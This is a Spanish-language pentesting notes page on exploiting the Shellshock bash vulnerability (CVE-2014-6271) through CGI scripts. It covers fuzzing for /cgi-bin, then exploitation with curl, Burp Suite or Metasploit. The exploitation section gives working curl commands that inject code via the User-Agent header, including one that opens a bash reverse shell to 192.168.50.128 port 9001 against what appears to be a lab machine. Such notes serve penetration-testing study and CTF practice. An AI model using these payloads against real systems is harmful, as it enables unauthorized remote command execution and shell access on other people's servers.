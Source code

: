 ```yaml
---
title: "Vulnerabilidades Mas Conocidas"
layout: "single"
category: "Linux Pentesting"
slug: "linux-pentesting/vulnerabilidades-mas-conocidas"
date: "2025-09-30"
---
```


### Shellshock (CVE-2014-6271)
Vulnerabilidad que nos permite llegar a ejecutar comandos de manera remota en la víctima, si tiene una versión de bash relativamente antigua. El tema aquí es encontrar binarios **cgi** en un servidor web **Apache** por ejemplo.

#### Enumeracion
SI al realizar fuzzing descubrimos el típico directorio **/cgi-bin** probablemente estemos de suerte.  *debemos hacer fuzzing sobre cgi-bin* Una vez localizado un binario **.cgi, pl, sh**, anotamos su ubicación, ej:
```bash
http://102.196.45.32/cgi-bin/status
```

#### Explotación con CURL o Burpsuite
Basta con manipular la cabecera **User-Agent** para llegar a acontecer la vulnerabilidad. 
```bash
curl -s http://102.196.45.32/cgi-bin/status -H "User-Agent: () { :; }; echo; echo; /usr/bin/whoami"

curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.50.128/9001 0>&1' http://symfonos3.local/cgi-bin/underworld
```
__Si no funciona con curl, pasarlo por burpsuite y mandar al repeater__

#### Explotacion con metasploit
buscar con "search shellshock", y en caso de apache localizarlo y utilizarlo. Lo importante al completar las "options" es establecer bien la "TARGETURI", que es la ruta hacia el binario cgi, pl, sh...

#Ejemplo: TARGETURI= /cgi-bin/prueba.cgi (no hay que meter la URL completa)